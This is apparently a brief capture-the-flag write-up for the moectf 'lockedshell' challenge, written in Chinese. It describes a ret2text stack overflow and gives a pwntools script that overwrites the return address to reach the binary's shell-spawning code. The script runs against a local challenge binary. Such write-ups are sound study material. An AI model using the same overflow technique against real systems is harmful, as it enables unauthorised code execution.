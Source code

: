 # moectf lockedshell

by Maple

简单的`ret2text`，注意如果直接跳到后门函数起点存在对齐问题，直接跳到对system函数使用部分最好

```python
from pwn import *
p = process('./pwn')
payload = b'b'*0x50+b'b'*0x8+p64(0x401193)
p.sendline(payload)
p.interactive()
```

